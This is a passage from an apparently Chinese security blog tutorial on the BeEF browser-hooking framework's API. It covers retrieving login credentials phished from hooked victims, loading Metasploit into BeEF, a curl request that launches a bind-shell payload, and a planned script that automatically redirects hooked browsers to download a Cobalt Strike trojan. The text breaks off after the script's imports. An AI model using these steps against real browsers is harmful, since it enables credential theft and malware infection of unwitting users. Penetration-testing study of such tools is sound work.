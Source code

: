 


<p nodeIndex="194">执行成功，并且返回了模块执行的command_id为35。假设我们提交的口令是：test333/123456</p>
<div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2017-07-08-1796630279/1"/></div>

<p nodeIndex="196">我们想要获取受害者提供的这些认证信息，这时候，我们需要这样请求：</p>
<pre nodeIndex="197">
<code nodeIndex="645">/api/modules/浏览器session/模块id/command_id？token=xxx</code>
</pre>





<h3 nodeIndex="201">Beef与metasploit联用</h3>
<p nodeIndex="202">我们当然不能忘记了metasploit这个神器。Beef与metasploit联用，实在是个杀器。要想在beef加载metasploit，我们首先需要修改默认的配置文件，修改beef下config.yaml文件</p>


<p nodeIndex="204">把启用metasploit这个选项值改成true</p>


<p nodeIndex="206">另外,如果你的metasploit安装位置不包含在默认路径里，需要在beef-xss/extensions/metasploit/config.yaml的文件里设置一下</p>


<p nodeIndex="208">然后我们启动msf加载msgrpc</p>
<p nodeIndex="209">msfconsole -x “load msgrpc ServerHost=127.0.0.1 Pass=abc123″</p>


<p nodeIndex="211">重启beef即可加载metasploit模块</p>


<p nodeIndex="213">这样我们就会在web控制台里发现加载的metasploit模块，但是并不是所有模块都适合与beef联用。</p>


<p nodeIndex="215">同样的，如果你想调用Metasploit模块，步骤与前面的都一样，先查看改模块的id，所需参数等信息，然后构造请求调用这个模块即可，关于metasploit模块调用，因为过两天要考试了，没有时间做测试，有兴趣的朋友可以试一试。这个是 BeEF-RESTful API的上一个示例。</p>
<pre nodeIndex="216">
<code nodeIndex="655">curl -H <span nodeIndex="656">"</span><span nodeIndex="657">Content-Type: application/json; charset=UTF-8</span><span nodeIndex="658">"</span> -d <span nodeIndex="659">'</span><span nodeIndex="660">{"SRVPORT":"3992", "URIPATH":"77345345345dg", "PAYLOAD":"generic/shell_bind_tcp"}</span><span nodeIndex="661">'</span> -X POST http://xxxx/api/modules/浏览器session?token=xxx</code>
</pre>
<h2 nodeIndex="217">三. 编写自动化控制脚本<br nodeIndex="662"></h2>
<p nodeIndex="218">下面我尝试编写一个简单的自动控制hook主机的脚本，批量执行我提前设定的一些模块。我的思路是定时获取hook主机的session信息 ，存放到一个字典里，如果有新上线的僵尸主机的浏览器session，我们就通过API控制这个浏览器执行我们设定好的Beef模块，并把这个session添加到一个列表里，表示已经执行过。如果检测到某个session已经存在于列表中，说明已经执行过，就不再执行。测试的代码中，我简单地使用用了三个模块：Confirm Close Tab，Raw Javascript，Redirect Browser。第一个模块可以增加shell存活时间，第二个模块可以执行javascript代码，第三个模块使浏览器进行跳转，我把这个跳转地址指向一个Cobalt Strike生成的测试木马，使其浏览器自动下载这个测试木马并模拟受害者运行。</p>
<p nodeIndex="219">先贴代码：</p>
<pre nodeIndex="220">
<code nodeIndex="663"><span nodeIndex="664">#</span><span nodeIndex="665">!/usr/bin/env python</span><span nodeIndex="666">
#</span><span nodeIndex="667"> -*- coding: utf-8 -*-</span><span nodeIndex="668">
#</span><span nodeIndex="669"> ** Author: ssooking</span><span nodeIndex="670">
#</span><span nodeIndex="671"> ** Name： AutoBeef.py</span>

<span nodeIndex="672">import</span> json
<span nodeIndex="673">import</span> urllib2
<span nodeIndex="674">import</span> time
